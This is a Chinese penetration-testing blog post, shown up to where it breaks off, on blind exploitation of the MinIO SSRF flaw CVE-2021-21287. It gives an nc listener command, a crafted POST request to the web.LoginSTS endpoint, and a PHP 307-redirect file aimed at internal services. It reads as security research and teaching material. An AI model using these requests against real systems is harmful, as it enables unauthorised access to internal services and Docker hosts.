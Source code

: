 ```yaml
---
title: Minio-ssrf盲打
date: 2023-07-14 14:45:47
categories: 渗透测试
tags: SSRF
---
```


**文章首发于火线安全**

地址[http://zone.huoxian.cn/d/2801-minio-ssrf-docker-api](http://zone.huoxian.cn/d/2801-minio-ssrf-docker-api)

## 前言

Minio SSRF漏洞-**CVE-2021-21287**，由于MinIO组件中LoginSTS接口设计不当，导致存在服务器端请求伪造漏洞。



但这个漏洞没有回显，利用起来也比较麻烦，目前已知的利用方式是用重定向去打docker api和内网的其他服务。

在不知道docker集群地址的情况下，也只能通过盲打的方式去碰运气了。

## 漏洞复现

### 漏洞验证

服务器开启NC监听

`sudo nc -lvp 80`

发送如下数据包，将**HOST**头修改为服务器地址

```http
POST /minio/webrpc HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 76

{"id":1,"jsonrpc":"2.0","params":{"token":"Test"},"method":"web.LoginSTS"}
```

若NC有反应，则漏洞存在

### 漏洞利用

这个漏洞利用主要通过307的可控路径重定向让目标去请求指定服务

可以先来尝试一下，编辑index.php，输入以下内容

```php
<?php
header('Location: http://192.168.203.130:8080', false, 307);
```

